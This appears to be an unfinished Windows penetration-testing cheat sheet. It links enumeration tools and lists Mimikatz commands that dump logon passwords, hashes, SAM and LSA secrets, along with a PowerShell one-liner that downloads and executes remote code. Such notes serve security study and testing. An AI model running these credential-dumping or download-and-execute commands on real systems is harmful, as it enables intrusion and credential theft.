 # Windows
**work in progress**

- [Windows](#windows)
  - [Enumeration](#enumeration-on-windows)
  - [Mimikatz](#mimikatz)
  - [Other](#other)
  - [Privilege Escalation](#)

## Enumeration on windows
Automated enumeration tools:
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)
- [Watson](https://github.com/rasta-mouse/Watson)

## Mimikatz
- [mimikatz](https://github.com/gentilkiwi/mimikatz)

### Check for correct privilege
```bash
mimikatz $ privilege::debug
```

### Extract logon passwords / hashes
```bash
mimikatz $ sekurlsa::logonpasswords
# OR
mimikatz $ lsadump::sam
# OR
mimikatz $ lsadump::secrets
```

## Other
Some useful stuff.

### Powershell: download files
```powershell
Invoke-WebRequest <URL> -Outfile <PATH>
```

### Powershell: download and execute file
```powershell
IEX(New-Object Net.WebClient).downloadString("URL")
```
